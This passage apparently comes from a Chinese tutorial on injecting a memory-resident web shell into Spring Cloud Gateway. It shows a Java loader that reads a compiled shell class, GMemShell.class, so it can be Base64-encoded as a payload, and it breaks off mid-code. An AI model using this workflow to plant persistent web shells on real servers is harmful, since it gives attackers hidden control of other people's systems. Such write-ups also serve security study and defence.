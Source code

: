 ![Spring-Cloud-Gateway-MemShell-6](assets/Spring-Cloud-Gateway-MemShell-6.png)

编写加载器，加载该 Class 文件并转换为 Base64 编码

```java
import java.io.ByteArrayOutputStream;
import java.io.FileInputStream;
import java.util.Base64;

public class LoaderClass {
  public static byte[] load(String path) {
    FileInputStream fis = null;
    ByteArrayOutputStream baos = null;
    
    try {
      fis = new FileInputStream(path);
      baos = new ByteArrayOutputStream();
      byte[] buffer = new byte[1024];
      int len = -1;
      while ((len = fis.read(buffer)) != -1) {
        baos.write(buffer, 0, len);
        baos.flush();
      }
      return baos.toByteArray();
    }
    catch (Exception e) {
      e.printStackTrace();
    }
    finally {
      if (fis != null) {
        try { fis.close(); }
        catch (Exception e) { e.printStackTrace(); }
      }
      if (baos != null) {
        try { baos.close(); }
        catch (Exception e) { e.printStackTrace(); }
      }
    }
    return null;
  }
  
  public static void main(String[] args) {
    byte[] code = LoaderClass.load("target/classes/GMemShell.class");
```